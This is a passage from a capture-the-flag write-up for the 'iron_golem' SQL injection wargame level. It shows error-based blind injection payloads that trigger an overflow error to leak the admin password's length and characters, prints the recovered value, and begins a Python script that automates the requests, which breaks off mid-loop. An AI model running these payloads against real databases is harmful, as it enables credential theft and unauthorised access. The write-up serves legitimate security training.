 ```
?pw=' OR id='admin' AND if(length(pw)=32, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_iron_golem WHERE id='admin' AND pw='' OR id='admin' AND if(lenght(pw)=32, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/08f92ace-ad67-4497-87a9-e5f69510ecc8)

That tells us that the length of the `pw` column is 32.


### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![Pasted image 20240610125927](https://github.com/Kunull/Write-ups/assets/110326359/121b2dab-27a1-41f1-8759-aa9b829c815a)

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND if(substr(pw, 1, 1)='0', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_iron_golem WHERE id='admin' AND pw='' OR id='admin' AND if(substr(pw, 1, 1)='0', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -'
```

The above SQL query will perform the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation if the first character of the `pw` for `id='admin'` is `0`. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

![4](https://github.com/Kunull/Write-ups/assets/110326359/b58f4cf1-d837-4501-ba48-c2d7a929b454)

The error was invoked. This means that the first character of the `pw` for `id='admin'` is `0`.
We can repeat this process to leak out all 32 characters.

```
06b5a6c16e8830475f983cc3a825ee9a
```

### Script

We can automate the process using a script.

```python title="iron_golem_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'vdr0c0g98drafh42m3iitpc9r4'}
url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
password_length = 0

for x in range(0, 100):
  payload = f"' or id='admin' and if(length(pw)={x}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "out of range" in response.text:
```